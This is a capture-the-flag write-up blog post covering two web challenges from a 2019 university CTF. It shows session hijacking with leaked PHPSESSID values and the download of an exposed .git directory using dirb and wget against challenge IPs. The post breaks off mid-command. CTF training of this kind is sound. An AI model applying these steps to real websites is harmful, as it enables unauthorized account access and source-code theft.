 ```yaml
---
date: 2019-11-30 23:48:05
layout: post
title: CyberTalents - Ainshams University CTF2019
subtitle: "Created by: Mrx-Exploit"
description: >-
  Created by: Mrx-Exploit
image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
optimized_image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
category: blog
tags:
  - websec
  - cybertalents
  - rce
author: Hazem Hesham
paginate: true
---
```


I will solve the web Challenges in this post so there are two challenge select anyone you need and enjoy  

1. [Dark Session](#dark-session)
2. [Broken Doors](#broken-doors)  

# Dark Session

As the usual I will run dirb  but in i found nothing bad luck xD  

So let's see the the source code  

Yes i found brainFuck encryption  

![image](/assets/img/WebCTF/ainshams/1.png)

So let's decode it [dcode.fr](https://www.dcode.fr/brainfuck-language)  

Awsomme we got something looks useful  
```javascript
if(document.cookie !== ''){        $.post('getuserinfo.php',{          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1](        },function(data){2          cu = data;<        });F      }
```
There are `getuserinfo.php` and it's takes POST data `PHPSESSID= ???`  

So let's see what's inside it  

![image](/assets/img/WebCTF/ainshams/2.png)  

Ahaa it's API Hmmm  

So we need value for PHPSESSID to get the userinfo  

Let's back to `/Dark-Sessions/` and see again on it  

Damn I got this message   
```
Session not found in our secret place , {http://tiny.cc/u16dfz}
```

It's pastbin and there are Secret Sessions
```
#Secret_Sessions#
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```
So let put it in Cookie and see what will happen  

```bash
GET /Dark-Sessions/ HTTP/1.1
Host: 54.93.122.202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
Shit I got anther message 
```
UserInfo Cookie don't have the username , you need to go deeper... 
```
I think i need to get the username and put it in Cookie too in UserInfo   

So let's try to send the session in the API and let's see what will happen  

![image](/assets/img/WebCTF/ainshams/3.png)

Awsome i got the username it's so easy  

let's put it in the Cookie  

![image](/assets/img/WebCTF/ainshams/4.png)

Woow it's so easy we got the flag
```
Secret_session_gained_succefully
```
# Broken doors

As the usual I will run dirb  

```Bash
root@kali:~/Desktop# dirb http://18.197.166.159/Broken-doors/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Nov 30 12:15:24 2019
URL_BASE: http://18.197.166.159/Broken-doors/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4614

---- Scanning URL: http://18.197.166.159/Broken-doors/ ----
+ http://18.197.166.159/Broken-doors/.git/HEAD (CODE:200|SIZE:23)
^C> Testing: http://18.197.166.159/Broken-doors/_tempalbums
```
Yes I got .git so lets download it

```Bash
root@kali:~/Desktop/cyber# rm .git
root@kali:~/Desktop/cyber# mkdir git
root@kali:~/Desktop/cyber# cd git
root@kali:~/Desktop/cyber/git# wget -r http://18.197.166.159/Broken-doors/.git/
--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/
Connecting to 18.197.166.159:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/.git/index.html’

18.197.166.159/Brok     [ <=>                ]   1.39K  --.-KB/s    in 0s

2019-11-30 10:56:36 (71.8 MB/s) - ‘18.197.166.159/Broken-doors/.git/index.html’ saved [1420]

Loading robots.txt; please ignore errors.
--2019-11-30 10:56:36--  http://18.197.166.159/robots.txt
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 404 Not Found
2019-11-30 10:56:36 ERROR 404: Not Found.

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/index.html’

18.197.166.159/Brok     [ <=>                ]   2.47K  --.-KB/s    in 0s

2019-11-30 10:56:36 (5.19 MB/s) - ‘18.197.166.159/Broken-doors/index.html’ saved [2531]

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/branches/
```
```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159# cd Broken-doors/
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls
index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls -la
total 16
drwxr-xr-x 3 root root 4096 Nov 30 10:56 .
drwxr-xr-x 3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x 8 root root 4096 Nov 30 10:56 .git
-rw-r--r-- 1 root root 2531 Nov 30 10:56 index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# cd .git
root@kali
```
